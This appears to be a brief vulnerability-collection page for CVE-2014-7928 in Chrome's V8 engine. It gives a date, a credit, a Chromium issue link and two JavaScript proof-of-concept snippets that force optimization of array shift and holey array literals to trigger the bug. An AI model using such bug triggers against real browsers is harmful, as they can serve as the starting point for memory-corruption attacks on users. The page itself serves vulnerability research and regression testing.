 # CVE-2014-7928

- Date: Jan 2015
- Credit: Christian Holler

## PoC

```javascript
// Flags: --allow-natives-syntax

// Inlining shift with holey smi arrays shouldn't deopt just because it
// encounters the hole on the copy step.
function doShift(a) {
  var x = a.shift();
  return x;
}

function makeArray() {
  var a = [1, 2,, 3];
  a[0] = 2;
  return a;
}

doShift(makeArray());
doShift(makeArray());
%OptimizeFunctionOnNextCall(doShift);
doShift(makeArray());
assertOptimized(doShift);


// Flags: --allow-natives-syntax --verify-heap

function test(x) { [x,,]; }

test(0);
test(0);
%OptimizeFunctionOnNextCall(test);
test(0);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=435073)
